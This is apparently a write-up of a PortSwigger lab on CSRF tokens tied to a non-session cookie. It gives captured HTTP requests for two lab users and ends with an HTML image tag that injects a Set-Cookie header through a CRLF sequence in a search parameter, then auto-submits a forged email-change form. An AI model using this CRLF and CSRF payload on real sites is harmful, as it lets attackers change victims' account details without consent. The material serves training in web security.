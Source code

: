 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9b0fa0fc-3538-47a6-9c76-28553367992f)



## Overview :

**CSRF token is tied to a non-session cookie -**

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

> The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be
leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com
could be leveraged to place a cookie that is submitted to secure.normal-website.com. 

**Some times csrf token is tied to a cookie but this cookie is not related to the session of the user. This happens because the application uses 2 different frameworks one for session handling and one for csrf protection and both aren't integrated together.**


## Solution :


If we update the email of wiener, browser sends a request like this.



```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=ZPFZy0o8QHUK2RTfyaHqKIAbc97aoQd; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user1%40user.net&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```

We see that there is a **csrf token parameter in the body of the request & a csrfkey cookie in the header**. Both has two different values.



If we change the cookie value, then we get logged out.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70cb63c0-8c3b-488f-bb16-5cc961e6024e)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b6414afc-90af-422d-be95-a04c202c32d2)

**If we log in again, we get the same csrf token & also the same csrfkey as before but different session cookie.**

```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=ittvGu6fBbmpHK5rPxvZDCGA8SEFOafP; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```

From this we can understand that system providing the CSRF protection does not integrate into the session system, but creates its own type of session that is not in sync.

**First let's login as wiener -**

- On viewing the page source, we can fint he csrf token of wiener - `I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD`

- Click on inspect element & we can see that in the cookies we have the csrfkey - `yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc`


**Log in as carlos -**

Open a incognito tab and login as carlos.

Update carlos's email & capture the request,

```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=cV2AxFTpez3Xml0BLiEx86RJUIXHDn7T; csrfKey=hCSFtEnq0dVU2t8DajouPWfooHhpPi2q
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Dnt: 1
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test2%40test.net&csrf=FxkOmuSSG0XT01gCwdw8pDbTl1wcRGdW
```

- Carlos's csrf token - `FxkOmuSSG0XT01gCwdw8pDbTl1wcRGdW`
- Carlos's csrfkey - `hCSFtEnq0dVU2t8DajouPWfooHhpPi2q`

If we replace only the csrf token & csrf key of carlos's with wiener, the request gets accepted & the email of carlos is changed as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6451487d-2e12-4431-8748-f9e3f3b1c3fb)

#### Inject csrfkey cookie value by HTTP header injection

Send the above request to POC generator.

> Note that we have only changed the csrf token value to **anytoken**. The csrfkey value is still the same. It will have to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as anytoken . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```


